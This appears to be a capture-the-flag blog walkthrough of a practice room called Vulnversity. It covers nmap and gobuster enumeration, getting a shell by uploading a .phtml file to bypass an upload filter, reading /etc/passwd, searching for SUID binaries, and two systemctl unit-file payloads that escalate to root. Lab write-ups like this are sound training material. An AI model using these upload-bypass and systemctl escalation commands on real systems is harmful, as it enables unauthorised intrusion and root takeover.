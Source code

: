 ```yaml
---
layout: post
permalink: /posts/thm/vulnversity
title: "Vulnversity"
---
```


Here is another enjoyable room. As always let's scan the target machine with nmap.

```
nmap -sC -sV <machine-ip>
```

![nmap-scan](/assets/images/thm/vulnversity/nmap-scan.png)

From the nmap result we can see there are open ports 21, 22, 139, 445, 3128 and 3333. Go and visit the website on port 3333

![website](/assets/images/thm/vulnversity/website.png)

Now scan the website with gobuster

```
gobuster dir -u http://<machine-ip> -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

We have found a directory /internal

![internal](/assets/images/thm/vulnversity/internal.png)

After some tries we found out we can uploat files with .phtml extension. Upload php reverse shell code, set listener and go to http://10.10.176.156:3333/internal/uploads and open your script. Now we have shell access.

```
cat /etc/passwd
```

![passwd](/assets/images/thm/vulnversity/passwd.png)

Search for files with SUID permisson

```
find / -user root -perm -4000
```

![suid](/assets/images/thm/vulnversity/suid.png)

Search for prev esc https://gtfobins.github.io/gtfobins/systemctl/ <br />
Keep in mind that you might need to press Enter additionally after you’ve pasted and ran the commands.

```
-----------------------
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
-----------------------
to get root access

-----------------------------------------------------------
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
-----------------------------------------------------
press Enter and type bash -p
```
